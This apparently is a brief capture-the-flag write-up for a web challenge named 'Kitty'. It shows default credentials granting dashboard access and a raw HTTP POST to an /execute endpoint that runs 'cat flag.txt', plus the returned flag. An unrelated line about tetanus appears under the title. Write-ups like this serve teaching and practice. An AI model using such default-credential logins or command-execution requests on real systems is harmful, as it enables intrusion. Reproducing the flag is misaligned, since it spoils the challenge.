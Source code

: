 https://ctftime.org/event/2209/

# Kitty

Tetanus is a serious, potentially life-threatening infection that can be transmitted by an animal bite.

Target : http://45.33.123.243:5020/

## Solution

When you visit the site you are greeted with a login page.

`admin:password` grants you access to `/dashboard` and a valid session cookie.

The dashboard features the ability to "execute" a command with a `POST` to `/execute`:

```
POST /execute HTTP/1.1
Host: 45.33.123.243:5020
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://45.33.123.243:5020/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://45.33.123.243:5020
Connection: close
Cookie: session=eyJhdXRoZW50aWNhdGVkIjp0cnVlfQ.Zav1dw.-fJY1q7x8WzeGdAyniHuZQiyr3A

post_input=cat%20flag.txt
```

This returns the flag:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 45
Server: Werkzeug/2.0.3 Python/3.6.15
Date: Sat, 20 Jan 2024 16:32:31 GMT

<pre>KCTF{Fram3S_n3vE9_L1e_4_toGEtH3R}
```

## Flag
`KCTF{Fram3S_n3vE9_L1e_4_toGEtH3R}`
